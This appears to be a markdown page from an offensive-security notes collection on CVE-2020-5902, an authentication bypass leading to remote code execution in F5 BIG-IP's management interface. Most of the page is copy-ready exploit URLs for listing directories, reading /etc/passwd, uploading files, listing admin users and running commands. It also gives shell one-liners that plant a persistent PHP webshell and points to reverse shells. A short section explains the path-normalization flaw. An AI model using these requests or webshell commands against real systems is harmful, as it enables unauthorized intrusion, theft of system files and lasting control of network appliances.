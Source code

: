 # RCE on F5 Big-IP (CVE-2020-5902)

In BIG-IP versions `15.0.0-15.1.0.3`, `14.1.0-14.1.2.5`, `13.1.0-13.1.3.3`,
`12.1.0-12.1.5.1` and `11.6.1-11.6.5.1` there is a vulnerability on the
Traffic Management User Interface (TMUI) allowing a user to bypass the
authentication to read arbitrary files and execute commands.


## Exploit

### List files

```
https://{IP}:{PORT}/tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/etc/
```

### Read file

```
https://{IP}:{PORT}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

### Upload file

```
https://{IP}:{PORT}/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp

fileName={FILE_DESTINATION_PATH}&content={FILE_CONTENT}
```

```
https://{IP}:{PORT}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName={FILE_DESTINATION_PATH}

{"output":"{FILE_CONTENT}\n"}
```

### List users

```
https://{IP}:{PORT}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```


### Execute commands

To execute commands, you need to create an alias then upload your command. You
can use a [reverse shell](../reverse-shell.md) to gain an access to the box.

The following requests [from MSF](https://github.com/rapid7/metasploit-framework/pull/13807)
execute the `id` command on the vulnerable endpoint:

```
https://{IP}:{PORT}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash
https://{IP}:{PORT}/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/cmd&content=id
https://{IP}:{PORT}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/cmd
https://{IP}:{PORT}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=delete+cli+alias+private+list
```

You can also [upload a webshell](https://research.nccgroup.com/2020/07/05/rift-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902-intelligence/)
to have a persistent access:

```bash
mount -o remount -rw /usr; echo '{BASE64_PAYLOAD}' | /usr/bin/openssl base64 -d -out /usr/local/www/xui/common/images/bg_status.php
mount -o remount -rw /usr; echo '{PHP_PAYLAOD}' > /usr/local/www/xui/common/scripts/utility.php; mount -o remount -r /usr
```

## Technical details

The vulnerability comes from how web servers parse URL. [OrangeTsai](https://twitter.com/orange_8361)
explained during a talk at the [Black Hat US-18](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)
how it's possible to bypass some verification between two different web servers.
On slide 51, he shows the example of Jira to access the secure dashboard with a
Path Traversal technique `..;`. This is the same technique here for the F5 TMUI.

```
https://jira.uberinternal.com/status/..;/secure/Dashboard.jspa
```
